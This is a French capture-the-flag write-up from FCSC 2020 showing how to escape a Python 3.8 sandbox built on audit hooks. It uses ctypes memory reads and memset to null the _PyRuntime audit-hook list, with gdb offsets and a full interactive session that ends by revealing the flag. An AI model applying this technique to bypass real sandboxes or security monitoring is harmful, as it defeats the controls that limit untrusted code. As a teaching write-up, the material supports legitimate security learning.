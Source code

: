 ```yaml
---
title: "[FR] Write-up FCSC 2020 : Why not a Sandbox"
date: 2020-05-04T18:00:00+02:00
draft: false
tags:
- CTF
- FCSC
- FCSC 2020
---
```


# I - Intro
Le challenge se compose d'un interpréteur Python 3.8.2 avec le quel on peut interagir via une simple connexion TCP obtenable avec `netcat`. Cet interpréteur modifié va lever une exception lorsque certaine actions sont effectuée. Il est donc impossible d'appeler `os.system` pour obtenir un shell mais aussi d'ouvrir un fichier avec `open()`. Le but est donc d'appeler la fonction `print_flag()` qui à été ajoutée à la librairie principale de python que l'ont peut accéder via le module `ctypes`, celle-ci va aussi lever une exception.
```
$ nc challenges1.france-cybersecurity-challenge.fr 4005
Arriverez-vous à appeler la fonction print_flag ?
Python 3.8.2 (default, Apr  1 2020, 15:52:55)
[GCC 9.3.0] on linux
>>> import os
Exception ignored in audit hook:
Exception: Action interdite
Exception: Module non autorisé
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
Exception: Action interdite
>>> open("/etc/passwd", "r")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
Exception: Action interdite
>>> import ctypes
>>> ctypes.pythonapi.print_flag()
Exception: Nom de fichier interdit
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.8/ctypes/__init__.py", line 386, in __getattr__
    func = self.__getitem__(name)
  File "/usr/lib/python3.8/ctypes/__init__.py", line 391, in __getitem__
    func = self._FuncPtr((name_or_ordinal, self))
Exception: Action interdite
```

# II - Les audit hooks
Les exceptions n'apparaissent pas toutes de la même manière mais celle de `import os` indique `Exception ignored in audit hook`. L'exception est donc générée dans un audit hook. Les audit hooks sont une nouvelle fonctionnalité de python 3.8 permettant d'exécuter une certaine fonction avant que certain évènements se produisent (Ex: import d'un module, appel d'une fonction, etc.). Ceux-ci sont définis dans le standard [PEP 578](https://www.python.org/dev/peps/pep-0578/).

Pour créer un audit hook, la fonction `PySys_AddAuditHook()` doit être appelée, celle-ci va ajouter le pointeur de fonction passé en paramètre dans une liste chainée commençant par le [membre `audit_hook_head` de la structure `_PyRuntimeState`](https://github.com/python/cpython/blob/62f75fe3dd138f72303814d27183aa469eefcca6/Include/internal/pycore_runtime.h#L105). Cette structure est utilisée par l'objet global principal de l'interpréteur Python: [`_PyRuntime`](https://github.com/python/cpython/blob/252346acd937ddba4845331994b8ff4f90349625/Python/pylifecycle.c#L66).

Le but serait donc de mettre le pointeur `_PyRuntime.audit_hook_head` à `NULL` de manière à *"détruire"* le liste chainée et rendre inefficace tous les audit hooks. Pour cela il faut connaitre l'offset du membre `audit_hook_head` par rapport à `_PyRuntime`. La manière la plus simple pour le connaitre est de compiler exactement la même version de python que celle du serveur avec le `CFLAGS` `-g` de manière à produire un binaire contenant les informations `DWARF`. On peut ensuite ouvrir cet interpréteur et y attacher un debuggeur pour connaitre l'offset voulu.

```
(gdb) print &(_PyRuntime.audit_hook_head)
$1 = (_Py_AuditHookEntry **) 0x788e70 <_PyRuntime+1456>
```

Donc : `&_PyRuntime + 1456 == &(_PyRuntime.audit_hook_head)`.

# III - `ctypes`

`ctypes` est le module python permettant d'utiliser des bibliothèques natives, celui-ci n'a pas été entièrement blacklisté par le audit hook, on peut donc se servir de certaine de ces fonctions permettant des actions plutôt utiles.

`ctypes._CData.from_address()` : `ctypes` possède des classes, toutes héritantes de `_CData`, représentant différent types de données en C. On peut donc par exemple utiliser `ctypes.c_uint64.from_address(0x12345678)` pour lire un entier non signé de 64 bits à l'adresse `0x12345678`. Cette fonction permet donc d'effectuer des *arbitrary write* dans l'espace d'adresse de python.

`ctypes.memset()` : celle-ci à l'avantage d'être clair, il s'agit de la fonction analogue de `memset()` en C, on peut donc s'en servir pour effectuer des *arbitrary writes* dans l'espace d'adresse de python.

`ctypes.addressof()` : Cette fonction retourne l'adresse d'un objet python, on peut donc s'en servir pour obtenir l'adresse de `_PyRuntime`. Il est à noter que celle-ci revoit bien l'adresse de l'objet python or `ctypes.pythonapi._PyRuntime` retournera un `_FuncPtr` permettant d'encapsuler la fonction C (bon ici ce n'est pas une fonction mais le principe reste le même), il faudra donc utiliser `ctypes.c_uint64.from_address(ctypes.addressof(ctypes.pythonapi._PyRuntime))` pour lire le premier membre du `_FuncPtr` qui correspond à la vrai adresse de `_PyRuntime`.

# IV - Exploitation finale

A l'aide des informations des paragraphes II et III, on peut facilement déactiver les audit hooks et donc permettre l'appel de `print_flag()` :
```
Arriverez-vous à appeler la fonction print_flag ?
Python 3.8.2 (default, Apr  1 2020, 15:52:55) 
[GCC 9.3.0] on linux
>>> import ctypes
>>> addr_obj_run = ctypes.addressof(ctypes.pythonapi._PyRuntime)
>>> ctypes.c_uint64.from_address(addr_obj_run)
c_ulong(140211617380992)
>>> addr_run = 140211617380992
>>> ctypes.c_uint64.from_address(addr_run + 1456)
c_ulong(94195313321648)
>>> hex(94195313321648)
'0x55ab8e30a6b0'
>>> ctypes.memset(addr_run + 1456, 0, 8)
140211617382448
>>> ctypes.c_uint64.from_address(addr_run + 1456)
c_ulong(0)
>>> open("")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
FileNotFoundError: [Errno 2] No such file or directory: ''
>>> ctypes.pythonapi.print_flag
<_FuncPtr object at 0x7f858eeeadc0>
>>> ctypes.pythonapi.print_flag()
super flag: FCSC{55660e5c9e048d988917e2922eb1130063ebc1030db025a81fd04bda75bab1c3}
83
```
